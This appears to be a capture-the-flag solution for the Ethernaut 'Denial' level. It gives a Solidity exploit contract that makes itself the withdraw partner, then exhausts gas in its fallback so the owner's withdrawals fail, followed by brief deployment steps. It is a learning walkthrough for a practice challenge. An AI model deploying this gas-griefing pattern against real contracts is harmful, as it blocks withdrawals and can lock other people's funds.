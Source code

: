 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Denial {
  function setWithdrawPartner(address ) external;
  function withdraw() external;
}

contract Exploit {

    function exploit (address _who) public {
        Denial(_who).setWithdrawPartner(address(this));
    }

    fallback() external payable {
        assembly {
            pop(mload(0xffffffffffffffff))
        }
        //could use assert(false) aswell
    }
}
```
- Call exploit() sending your contract instance
- Submit
